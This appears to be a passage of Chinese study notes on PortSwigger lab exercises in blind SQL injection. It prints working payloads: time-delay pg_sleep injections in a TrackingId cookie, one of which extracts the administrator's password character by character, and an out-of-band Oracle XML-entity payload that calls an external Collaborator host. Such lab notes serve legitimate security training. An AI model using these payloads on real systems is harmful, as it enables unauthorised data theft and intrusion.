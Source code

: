 **TrackingId=jcIdfkZhtgsliKvJ' || (select case when(1=1) then pg_sleep(5) else '' end)-- **

设置资源池最大并发数量为1 

**TrackingId=jcIdfkZhtgsliKvJ' || (select case when((select substring(password,1,1) from users where username='administrator')='a') then pg_sleep(10) else '' end)-- ;**

![image-20250713000856248](portswigger.assets/image-20250713000856248.png)



## 16.实验室：带外交互的盲 SQL 注入

**TrackingId=NXWIBOr6nmw4QgYk'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://ophuu0y4cuor52mhof4b4mspug07o0cp.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--; **

![image-20250713003129305](portswigger.assets/image-20250713003129305.png)

![image-20250713003121009](portswigger.assets/image-20250713003121009.png)
